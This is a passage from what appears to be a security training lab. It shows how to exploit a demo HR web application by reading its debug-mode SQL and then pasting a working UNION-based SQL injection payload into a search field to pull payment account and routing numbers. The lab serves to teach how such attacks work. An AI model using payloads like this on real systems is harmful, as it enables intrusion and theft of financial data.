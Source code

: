     ![HR App - Debug mode results](./images/hack-lab2a-05.png "HR App - Debug mode results")

    **Note:**
    - Now, you can see the SQL query executed by this form which displays the results
    - This query gives you the information of the number of columns requested, their name, the tables in use, and their relationship. That information helps you know what database columns relate to which columns in the application's user interface.

7. Now, based on this information, you can use a "UNION-based" SQL injection query to display sensitive data you want to extract. Here, we will use this query to extract `USER_ID, MEMBER_ID, PAYMENT_ACCT_NO` and `ROUTING_NUMBER` from the `DEMO_HR_SUPPLEMENTAL_DATA` table.

    ```
    <copy>
    ' UNION SELECT userid, ' ID: '|| member_id, 'SQLi', '1', '1', '1', '1', '1', '1', 0, 0, payment_acct_no, routing_number, sysdate, sysdate, '0', 1, '1', '1', 1 FROM demo_hr_supplemental_data --
    </copy>
    ```

8. Copy the SQL Injection query, **paste it directly into the field "Position"** on the Search form on both Web App and tick the "Debug" checkbox

    ![HR App - SQL Injection](./images/hack-lab2a-06.png "HR App - SQL Injection")
